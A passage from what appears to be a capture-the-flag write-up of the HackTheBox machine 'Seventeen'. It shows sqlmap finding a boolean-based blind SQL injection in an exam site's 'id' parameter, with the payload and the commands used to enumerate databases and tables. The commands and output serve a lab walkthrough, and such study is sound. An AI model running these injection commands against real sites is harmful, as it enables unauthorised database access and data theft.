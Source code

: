     it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
    [14:05:40] [INFO] checking if the injection point on GET parameter 'id' is a false positive
    GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 39 HTTP(s) requests:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: p=take_exam&id=1' AND 5630=5630 AND 'cpfT'='cpfT
    ---
    [14:05:41] [INFO] testing MySQL
    [14:05:41] [INFO] confirming MySQL
    [14:05:41] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0
    ...[snip]...
    

It found the injection and I can now ask it questions.

### Access SFMS

#### DB Enumeration

I’ll list the DBs with `--dbs` (I’ll also add `--batch` to choose default
answers to any prompts, and threads are safe because it’s boolean, not time-
based):

    
    
    oxdf@hacky$ sqlmap --dbs -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    available databases [4]:
    [*] db_sfms
    [*] erms_db
    [*] information_schema
    [*] roundcubedb
    ...[snip]...
    

`information_schema` is the internal MySQL stuff. `roundcube` is a webmail
service (which I haven’t seen yet). `erms_db` is likely the DB for Exam
Management. I have no idea what `db_sfms` is.

#### erms_db

I’ll start with `erms_db`. It has six tables:

    
    
    oxdf@hacky$ sqlmap -D erms_db --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: erms_db
    [6 tables]
    +---------------+
    | category_list |
    | exam_list     |
    | option_list   |
    | question_list |
    | system_info   |